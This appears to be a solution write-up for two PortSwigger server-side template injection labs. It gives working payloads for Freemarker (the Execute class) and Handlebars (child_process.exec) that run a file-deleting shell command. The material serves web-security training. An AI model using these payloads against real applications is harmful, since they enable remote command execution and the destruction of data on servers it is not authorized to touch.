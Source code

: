 
### Solution
1. Log in and edit one of the product description templates. Notice that this template engine uses the syntax ``${someExpression}`` to render the result of an expression on the page. Either enter your own expression or change one of the existing ones to refer to an object that doesn't exist, such as ``${foobar}``, and save the template. The error message in the output shows that the Freemarker template engine is being used.
2. Study the Freemarker documentation and find that appendix contains an FAQs section with the question "Can I allow users to upload templates and what are the security implications?". The answer describes how the ``new()`` built-in can be dangerous.
3. Go to the "Built-in reference" section of the documentation and find the entry for `new()`. This entry further describes how `new()` is a security concern because it can be used to create arbitrary Java objects that implement the ``TemplateModel`` interface.
4. Load the JavaDoc for the ``TemplateModel`` class, and review the list of "All Known Implementing Classes".
5. Observe that there is a class called ``Execute``, which can be used to execute arbitrary shell commands
6. Either attempt to construct your own exploit, or find @albinowax's exploit on our research page and adapt it as follows:
```
<#assign ex="freemarker.template.utility.Execute"?new()> ${ ex("rm /home/carlos/morale.txt") }
```
7. Remove the invalid syntax that you entered earlier, and insert your new payload into the template.
8. Save the template and view the product page to solve the lab.

## Server-side template injection in an unknown language with a documented exploit
Reference: https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-in-an-unknown-language-with-a-documented-exploit


### Solution
1. Notice that when you try to view more details about the first product, a ``GET`` request uses the ``message`` parameter to render "``Unfortunately this product is out of stock``" on the home page.
2. Experiment by injecting a fuzz string containing template syntax from various different template languages, such as ``${{<%[%'"}}%\``, into the ``message`` parameter. Notice that when you submit invalid syntax, an error message is shown in the output. This identifies that the website is using Handlebars.
3. Search the web for "Handlebars server-side template injection". You should find a well-known exploit posted by ``@Zombiehelp54``.
4. Modify this exploit so that it calls ``require("child_process").exec("rm /home/carlos/morale.txt")`` as follows:
```
wrtz{{#with "s" as |string|}}
    {{#with "e"}}
        {{#with split as |conslist|}}
            {{this.pop}}
            {{this.push (lookup string.sub "constructor")}}
            {{this.pop}}
            {{#with string.split as |codelist|}}
                {{this.pop}}
                {{this.push "return require('child_process').exec('rm /home/carlos/morale.txt');"}}
                {{this.pop}}
                {{#each conslist}}
                    {{#with (string.sub.apply 0 codelist)}}
                        {{this}}
                    {{/with}}
                {{/each}}
            {{/with}}
        {{/with}}
    {{/with}}
{{/with}}
```